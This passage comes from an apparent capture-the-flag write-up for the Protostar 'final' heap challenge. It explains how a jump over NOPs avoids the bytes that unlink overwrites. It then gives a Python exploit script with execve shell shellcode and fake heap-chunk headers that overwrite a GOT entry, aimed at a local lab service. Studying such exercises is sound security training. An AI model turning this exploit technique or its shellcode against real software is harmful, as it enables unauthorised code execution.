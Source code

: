 ![sigtrap](/public/image/protostar-final/sigtrap.png)

Success! Now, let's refine our **actual exploit**.

### Solution

This is the <a href="https://shell-storm.org/shellcode/files/shellcode-575.html" target="_blank">shellcode</a> that I use. 

However, there's a problem, where `unlink()` always overwrites memory at `0x804e018`. This means **we lose four bytes** of our shellcode. 

What we need to overcome this is to make our shellcode **skip past** `0x804e018` and continue execution at `0x804e01C`. Luckily the `jmp` instruction (`\xeb`) does exactly this. Its argument is how many bytes to jump over. So our shellcode can start with `0xeb 0x0a` which moves the instruction pointer 10 bytes forward. We fill in the middle 10 bytes with `NOPs` (`0x90`). 

Our final script will be this.

```python
import socket, struct, telnetlib

HOST = '127.0.0.1'
PORT = 2993
REQSZ = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

shellcode = "\xeb\x0a" + "\x90" * 10 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

payload1 = "FSRD" + "AAAA" + shellcode
payload1 += "A" * (REQSZ - len(payload1) - 1 ) + "/"

write_got = struct.pack("I", 0x804d410)
heap_return = struct.pack("I", 0x804e010)

payload2 = "FSRDROOT/" + struct.pack("I", 0xfffffffc) + struct.pack("I", 0xfffffffc) + write_got + heap_return
payload2 += "A" * (REQSZ - len(payload2))

s.send(payload1)
```